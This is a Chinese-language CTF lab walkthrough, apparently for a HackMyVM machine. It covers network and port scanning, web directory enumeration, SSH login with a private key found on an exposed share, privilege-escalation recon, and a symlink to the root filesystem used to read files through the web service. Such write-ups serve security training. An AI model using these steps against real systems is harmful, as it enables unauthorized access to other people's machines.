




# 信息搜集
主机发现

```bash
┌──(root㉿kali)-[~]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:f7:03:e6, IPv4: 192.168.21.13
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.21.1    cc:e0:da:eb:34:a2       Baidu Online Network Technology (Beijing) Co., Ltd
192.168.21.2    04:6c:59:bd:33:50       Intel Corporate
192.168.21.7    08:00:27:ed:83:4a       PCS Systemtechnik GmbH
192.168.21.11   92:87:65:03:f9:bb       (Unknown: locally administered)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.056 seconds (124.51 hosts/sec). 4 responded
```
端口扫描

```bash
┌──(root㉿kali)-[~]
└─# nmap --min-rate 10000 -p- 192.168.21.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-20 04:10 EDT
Nmap scan report for sys.hidden.hmv (192.168.21.7)
Host is up (0.00037s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
65530/tcp open  unknown
MAC Address: 08:00:27:ED:83:4A (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.73 seconds
┌──(root㉿kali)-[~]
└─# nmap -sT -sV -O -p22,65530 192.168.21.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-20 04:11 EDT
Nmap scan report for sys.hidden.hmv (192.168.21.7)
Host is up (0.00029s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
65530/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
MAC Address: 08:00:27:ED:83:4A (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.59 seconds
```

# 漏洞利用
目录扫描

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.7:65530 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt           
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.7:65530
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 19]
/nt4share             (Status: 301) [Size: 45] [--> /nt4share/]
Progress: 207643 / 207644 (100.00%)
===============================================================
Finished
===============================================================
```
/index



/nt4share






得到了用户名和私钥，登陆一下ssh

```bash
┌──(root㉿kali)-[~]
└─# ssh adela@192.168.21.7 -i /home/kali/id_rsa 
The authenticity of host '192.168.21.7 (192.168.21.7)' can't be established.
ED25519 key fingerprint is SHA256:0ug88klEB+Auk3kP/jhWOHJJZmKXY2RjjR4GnhZdYuQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.21.7' (ED25519) to the list of known hosts.
Linux noob 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jul 14 02:50:51 2021 from 192.168.1.51
adela@noob:~$
```

# 提权
看看都有什么

```bash
adela@noob:~$ ls -la
total 28
drwxr-xr-x 3 adela adela 4096 Jul 14  2021 .
drwxr-xr-x 3 root  root  4096 Jul 11  2021 ..
-rw-r--r-- 1 adela adela  220 Jul 11  2021 .bash_logout
-rw-r--r-- 1 adela adela 3526 Jul 11  2021 .bashrc
-rw-r--r-- 1 adela adela  807 Jul 11  2021 .profile
drwx------ 2 adela adela 4096 Jul 13  2021 .ssh
-rw------- 1 adela adela   50 Jul 14  2021 .Xauthority
adela@noob:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
adela:x:1000:1000:adela,,,:/home/adela:/bin/bash
adela@noob:~$ sudo -l
-bash: sudo: command not found
adela@noob:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
adela@noob:~$ which getcap
adela@noob:~$ whereis getcap
getcap: /usr/sbin/getcap /usr/share/man/man8/getcap.8.gz
adela@noob:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
```
创建一个软链接

```bash
adela@noob:~$ ln -s / root
```
网页再次访问


